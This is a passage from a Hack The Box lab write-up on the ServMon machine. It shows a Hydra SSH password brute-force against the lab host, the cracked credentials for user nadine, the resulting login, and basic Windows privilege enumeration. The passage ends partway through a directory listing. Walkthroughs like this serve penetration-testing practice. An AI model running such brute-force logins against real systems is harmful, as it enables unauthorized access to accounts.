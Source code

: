   

I got a list of passwords so lets save them in a file called password.txt and take usernames in another file as user.txt and then run bruteforce on ssh login service.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ hydra -L user.txt -P passwords.txt ssh://10.10.10.184 -t 4
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-11 20:31:03
[DATA] max 4 tasks per 1 server, overall 4 tasks, 28 login tries (l:4/p:7), ~7 tries per task
[DATA] attacking ssh://10.10.10.184:22/
[22][ssh] host: 10.10.10.184   login: nadine   password: L1k3B1gBut7s@W0rk
[22][ssh] host: 10.10.10.184   login: Nadine   password: L1k3B1gBut7s@W0rk
1 of 1 target successfully completed, 2 valid passwords found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-11 20:31:15
                                                                        
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ cat user.txt 
nathan
nadine
Nathan
Nadine
```

## SSH Login ⤵️

I got the `nadine` user shell →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ ssh nadine@10.10.10.184                                                         
The authenticity of host '10.10.10.184 (10.10.10.184)' cant be established.
ED25519 key fingerprint is SHA256:WctzSeuXs6dqa7LqHkfVZ38Pppc/KRlSmEvNtPlwSoQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.184' (ED25519) to the list of known hosts.
nadine@10.10.10.184's password: 

Microsoft Windows [Version 10.0.17763.864]
(c) 2018 Microsoft Corporation. All rights reserved.

nadine@SERVMON C:\Users\Nadine>whoami
servmon\nadine
 
nadine@SERVMON C:\Users\Nadine>hostname
ServMon

nadine@SERVMON C:\Users\Nadine>whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

nadine@SERVMON C:\Users\Nadine>
nadine@SERVMON C:\Users\Nadine>tree /f /a
Folder PATH listing
Volume serial number is 20C1-47A1
C:.
```